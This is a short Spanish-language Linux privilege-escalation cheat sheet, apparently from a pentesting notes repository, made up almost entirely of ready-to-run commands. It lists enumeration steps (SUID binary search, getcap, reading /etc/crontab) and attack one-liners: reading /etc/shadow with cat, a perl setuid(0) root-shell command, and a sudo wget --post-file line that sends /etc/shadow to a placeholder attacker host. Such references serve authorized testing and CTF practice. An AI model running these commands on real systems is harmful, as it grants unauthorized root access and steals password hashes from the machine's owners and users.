 ### SUID

```python
	find / -perm -u=s -type f 2>/dev/null
```
### Buscar binarios para escalada de privilegios

```python
	find / -perm -u=s -type f 2>/dev/null
	
	find / -perm -4000 2>/dev/null
```
### Capabilities

```python
	getcap -r / 2>/dev/null
```
### Tareas programadas

```python
	cat /etc/crontab
```

### Escaladas 
### Escalada de privilegios con cat

```python
	/bin/cat /etc/shadow
```
### Escalada de privilegios con perl 

```python
	echo -ne '#!/bin/perl \nuse POSIX qw(setuid); \nPOSIX::setuid(0); \nexec "/bin/bash";' > script.pl
	
	perl -e 'use POSIX qw(setuid); POSIX::setuid(0); exec "/bin/sh";'
	
```
### Escalada de privilegios con wget

```python
sudo /usr/bin/wget --post-file=/etc/shadow <local-ip> <puerto>
```

